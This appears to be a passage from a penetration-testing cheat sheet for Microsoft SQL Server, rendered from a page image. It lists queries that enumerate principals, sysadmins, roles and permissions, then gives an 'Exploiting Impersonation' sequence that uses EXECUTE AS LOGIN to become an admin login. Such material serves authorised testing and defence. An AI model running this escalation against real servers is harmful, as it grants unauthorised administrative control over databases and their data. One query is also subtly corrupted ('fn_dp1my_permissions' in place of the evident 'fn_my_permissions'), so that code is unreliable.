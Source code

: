 ```sql
Select * from sys.database_principals where type_desc != 'database_role';
```

### List All Sysadmins

```sql
SELECT name,type_desc,is_disabled FROM sys.server_principals WHERE IS_SRVROLEMEMBER ('sysadmin',name) = 1
```

### List All Database Roles

```sql
SELECT DB1.name AS DatabaseRoleName,
isnull (DB2.name, 'No members') AS DatabaseUserName
FROM sys.database_role_members AS DRM
RIGHT OUTER JOIN sys.database_principals AS DB1
ON DRM.role_principal_id = DB1.principal_id
LEFT OUTER JOIN sys.database_principals AS DB2
ON DRM.member_principal_id = DB2.principal_id
WHERE DB1.type = 'R'
ORDER BY DB1.name;
```

### Effective Permissions from the Server

```sql
select * from fn_my_permissions(null, 'server');
```

### Effective Permissions from the Database

```sql
SELECT * FROM fn_dp1my_permissions(NULL, 'DATABASE');
```

### Find SQL Server Logins Which can be Impersonated for the Current Database

```sql
select distinct b.name
from sys.server_permissions a
inner join sys.server_principals b
on a.grantor_principal_id = b.principal_id
where a.permission_name = 'impersonate'
```

### Exploiting Impersonation

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
EXECUTE AS LOGIN = 'adminuser'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
SELECT ORIGINAL_LOGIN()
```
